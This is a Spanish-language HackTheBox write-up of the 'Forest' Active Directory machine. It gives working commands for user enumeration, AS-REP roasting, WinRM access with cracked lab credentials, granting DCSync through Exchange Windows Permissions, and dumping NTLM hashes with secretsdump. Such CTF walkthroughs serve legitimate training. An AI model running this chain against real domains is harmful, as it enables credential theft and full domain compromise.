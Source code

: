 ```yaml
---
title: Forest - Write Up (HTB) ❤
author: sha16
categories: [HackTheBox, Active Directory]
tags: [AS-REP Roasting, Abusing Account Operators, Abusing DCSync, Abusing Exchange Windows Permissions, Abusing WriteAcl Permissions, Active Directory, User Enum via RPC, Windows]
---
```


Buenas a tod@s, el día de hoy les traigo un `write-up` de la máquina `Forest` de `HackTheBox`.  

![Untitled](/assets/img/htb/machines/Forest/Untitled.png)

Como en cada `write-up`, lo primero hago es lanzar un escaneo de puertos con `nmap` con el objetivo de identificar potenciales vías de ataque. 

Como podrán ver a continuación, específico el parámetro `-sS` con el objetivo de que el escaneo sea vía `TCP SYNC`, lo que de cierto modo me permitirá agilizarlo, debido a que no hay `Three-Way-HandShake` como en `TCP`.

Lo otro es que configuré el `--min-rate` en `3000` con la idea de no enviar una cantidad menor a `3000` paquetes por segundo.

**Advertencia:** No aconsejo lanzar este escaneo en entornos productivos debido a que es ultra ruidoso y agresivo. En este caso lo estoy lanzando en un entorno controlado de `HTB`, donde no hay problema si un servicio se llega a caer.

```bash
nmap -v -sS --min-rate 3000 -n -Pn -p- 10.10.10.161 -oG tcp_ports.txt
```

![Untitled](/assets/img/htb/machines/Forest/Untitled%201.png)

Posterior a ello, nuevamente utilizando `nmap`, lanzo un escaneo de enumeración a todos los puertos abiertos con el objetivo de identificar detalles más específicos acerca de los servicios que se encuentran corriendo.

En base al resultado obtenido, tendré mucho más contexto para saber bien por dónde atacar y/o probar cosas.

```bash
map -v -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49706,49969 10.10.10.161 -oN port_scan.txt
```

En el resultado del escaneo, identifico varios servicios de interés, entre ellos: WinRPC, SMB, LDAP, WinRM y Kerberos. Sin embargo, ya con sólo ver al servicio `Kerberos`, tengo claro de que estoy ante un entorno de *Active Directory*, por lo que ya sé más o menos cómo enforcar mi estrategia de ataque y enumeración.

![Untitled](/assets/img/htb/machines/Forest/Untitled%202.png)

Al realizar una prueba sobre el servicio WinRPC, detectó que este posee habilitado el *null session*, lo que me da la posibilidad de acceder y recopilar información importante del dominio.

![Untitled](/assets/img/htb/machines/Forest/Untitled%203.png)

En este caso, ejecutando el siguiente `one-liner` extraigo a todos los usuarios listados en `WinRPC`, con la herramienta `rpcclient`.  

```bash
rpcclient -N -U '' 10.10.10.161 -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x' | tr -d ']['
```

![Untitled](/assets/img/htb/machines/Forest/Untitled%204.png)

Posterior a esto, con la herramienta `kerbrute` puedo verificar si estos usuarios son realmente válidos y se encuentran registrados en el dominio.

```bash
kerbrute userenum --dc 10.10.10.161 -d htb.local users.txt
```

![Untitled](/assets/img/htb/machines/Forest/Untitled%205.png)

Sabiendo esto, con el listado de usuarios en mano, ejecuto un ataque `AS-REPRoasting`, donde se identificó que el usuario `svc-alfresco` tiene habilitado el privilegio `UF_DONT_REQUIRE_PREAUTH`.

Este privilegio permite efectuar una solicitud del tipo `KRB_AS_REQ` al servicio `Kerberos`, sin previa autenticación del usuario, la cual es respondida con `KRB_AS_REP`. Esta respuesta como tal, entrega el `Ticket Granting Ticket (TGT)` del usuario, el cual posteriormente puede ser crackeado. De ahí surge el nombre del ataque.

En este caso, logramos identificar que el ataque se efectúa exitosamente sobre el usuario `svc-alfresco`.

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt htb.local/
```

![Untitled](/assets/img/htb/machines/Forest/Untitled%206.png)

Un atacante puede obtener la contraseña de un usuario crackeando un `Ticket Granting Ticket (TGT)`, debido a que parte de este se encuentra cifrado con la misma contraseña.

En base a esto, crackeo el `TGT` obtenido, lo cual me permite tener credenciales en el entorno y hacer pruebas con ello.

![Untitled](/assets/img/htb/machines/Forest/Untitled%207.png)

Una vez obtenidas las credenciales, utilizando `crackmapexec`, valido que el usuario `svc-alfresco` es parte del grupo `Remote Management Users` lo cual me permite conectarme y ejecutar comandos en el servidor, a través del servicio `WinRM`.

```bash
crackmapexec winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

![Untitled](/assets/img/htb/machines/Forest/Untitled%208.png)

Como se muestra en imagen, con la herramienta `evil-winrm` logro acceder correctamente a la terminal del usuario `svc-alfesco`, mediante `WinRM`.

```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

![Untitled](/assets/img/htb/machines/Forest/Untitled%209.png)

Posterior a esto, ejecuto la herramienta `bloodhound-python` con la cual enumero gran parte de la configuración existente en el directorio activo, a partir de las credenciales obtenidas.

```bash
bloodhound-python -u 'svc-alfresco' -p 's3rvice' -d htb.local --auth-method ntlm -ns 10.10.10.161 -c all
```

![Untitled](/assets/img/htb/machines/Forest/Untitled%2010.png)

Como se observa en la imagen, el usuario `svc-alfresco` pertenece al grupo `Service Accounts`, el cual es miembro del grupo `Privileged IT Accounts`, el que a su vez es miembro del grupo `Account Operators`.

El grupo `Account Operators` tiene dos cualidades particulares de las cuales me puedo aprovechar como atacante:

- Puede crear y administrar cuentas de usuarios y grupos *no administradores* en el dominio.
- Pueden iniciar sesión en el `Domain Controller (DC)` localmente.

![Untitled](/assets/img/htb/machines/Forest/Untitled%2011.png)

Dado que el usuario `svc-alfresco` forma parte de `Account Operators`, significa que tengo la capacidad de gestionar cuentas y grupos en el dominio. 

Para ello, previamente, listo todos los grupos que puedan ser de utilidad para posteriormente escalar privilegios.

Entre estos identificó a `Exchange Windows Permissions`, el cual corresponde a un grupo de *Active Directory* que, de manera predeterminada posee habilitado el permiso `WriteDACL`, lo cual me permitiría asignar ciertos permisos al resto de usuarios en el dominio, entre ellos `DCSync`.

> *“`DCSync` es una técnica que se utiliza para pedir las claves de cualquier usuario a un controlador de dominio, a través del protocolo de replicación `DRSUAPI`.” - Tarlogic*

Por lo general, en entornos de AD donde se encuentra se instalado `Microsoft Exchange`, suelen haber una cantidad mayor de usuarios en el grupo `Exchange Windows Permissions`. 

![Untitled](/assets/img/htb/machines/Forest/Untitled%2012.png)

Sabiendo esto, creo la cuenta de usuario `sha16` en el dominio y la añado al grupo local `Remote Management Users`, con el objetivo de que este puede acceder al servidor mediante el servicio `WinRM`. 

Por otro lado, también añado al usuario al grupo del dominio, `Exchange Windows Permissions`, el cual tiene la capacidad `WriteDacl`, lo cual me permitiría escalar privilegios, mediante la asignación de permisos críticos.

Para dar contexto, las `DACL` son las *Dictionary Access Control List* con las cuales es posible gestionar de manera efectiva los accesos en los entornos de directorio activo.  

![Untitled](/assets/img/htb/machines/Forest/Untitled%2013.png)

Como se muestra en imagen, dicho grupo posee el permisos `WriteDacl` sobre el dominio.

![Untitled](/assets/img/htb/machines/Forest/Untitled%2014.png)

Dado esto, con la siguiente instrucción en PowerShell, habiendo importado PowerView previamente, asigno el permiso `DCSync` a la cuenta del usuario `sha16`.

```powershell
# Add-DomainObjectAcl = Add-ObjectAcl
Add-ObjectAcl -PrincipalIdentity sha16 -Domain htb.local -Rights DCSync
```

![Untitled](/assets/img/htb/machines/Forest/Untitled%2015.png)

Hecho esto, como se muestra en imagen, el usuario `sha16` tiene la capacidad de volcar todo el NTDS, pudiendo obtener todos los hashes `NTLM` de los usuarios del dominio.

```bash
impacket-secretsdump 'htb.local/sha16:Admin12345$@10.10.10.161'
```

![Untitled](/assets/img/htb/machines/Forest/Untitled%2016.png)

Ya con el hash `NTLM` del usuario `Administrador`, me puedo conectar a su cuenta a través del servicio `WinRM` y obtener una terminal interactiva directamente en el servidor.

![Untitled](/assets/img/htb/machines/Forest/Untitled%2017.png)